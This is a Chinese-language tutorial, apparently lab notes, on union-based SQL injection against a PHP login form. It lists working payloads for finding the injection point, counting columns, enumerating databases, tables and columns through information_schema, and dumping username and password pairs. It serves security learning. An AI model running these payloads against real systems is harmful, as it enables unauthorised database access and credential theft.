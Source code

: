 ```php
        echo "Login Failed!";
    }
    mysqli_close($link); 
?>
```

正常的攻击肯定不只是满足登陆成功, 肯定是想要得到数据库的所有信息才好. 
联想数据库系统的组成, 就会想到爆破的顺序了: 

1. **找到注入点**    
  * `?name=admin'`    
    假如会报错就说明存在注入点, 因为在`php`查询数据库的语句里面, 
    有了类似这样的语句: `where user_name='admin''`, 所以就会报错, 
    于是暗示着这里有可乘之机. (如果是在`passwd`那里的话, 则不会报错, 
    因为它并没有在sql查询的语句中间. )
  * `?name=admin' order by 3 -- -`    
    就是利用排序来检查是否有那么多列数据, 
    比如说`4`会报错, `3`不会, 那么说明程序涉及的列有3列. 
  * `?name=admin' and length(database())=4-- -`    
    假如正确返回, 那么`database`的(名字?)长度为`4`
  * `?name=error' union select 8, 6, 4-- -`    
    想法就是瞎填一个`name`, 
    让第一次的`select`查不到值, 然后在`union`的作用下直接显示后面的信息, 
    现在后面的`select`填什么不重要, 只要填的是个东西, 并且数量对上就好, 
    然后在回显里面看到`id`, `username`, `password`分别对应的是`8`, `6`, `4`, 
    就可以根据这个就确定返回信息的注入位置.    
    这个注入点的意思是说, 这个点是可以做手脚的点. 于是可以进行下一步:    
    (下面假设可以返回的值是`8`, 也就是第一个位置是可以注入的点. )    
  * `?name=error' union select database(), 1, 3-- -`    
    通过这样的方法就可以在原来输出`8`的地方输入`database`的信息.    
    (下面的方法看起来就是这个方法的利用. )
2. **爆库**    
  `?name=error' union select 1, group_concat(schema_name), 3 from information_schema.schemata-- -`    
  想法就是利用`information_schema`里面放了数据库系统的信息, 把里面的信息给显示出来, 
  就可以看到数据库系统里面有多少个数据库了.    
  (可以看到里面有一个叫`test`的数据库. )
3. **爆表**    
  `?name=error' union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema='test'-- -`    
  在爆库的基础上得到的库名再写入限制里面, 就可以看到数据库`test`里面的表的名字.    
  (这里显示的是`user`)
4. **爆列**    
  `?name=error' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='user'-- -`    
  `?name=error' union select 1,group_concat(column_name order by column_name desc),3 from information_schema.columns where table_name='user'-- -`    
  第二个和第一个的区别在于加了一个排序, 理论上来说这两个的返回应该是一样的, 
  但是可能是因为长度的限制? 所以两个的显示都不全, 
  所以通过不同的排序顺序来尝试能否得到想要的东西.    
  (在第二个的输出里面可以看到`username`, `password`的列)
5. **爆数据**    
  `?name=error' union select 8,username,password from user-- -`    
  `?name=error' union select 8, group_concat(username, 0x7e, password), 4 from user-- -`    
  第一个的想法比较自然, 但是因为`name=error`的查询方法, 导致了只能显示一行的代码, 
  所以为了让所有的数据都可以显示, 
  用`group_concat`方法构造了形如`username~password`的输出.    
  (注: `0x7e.chr # => "~"`)
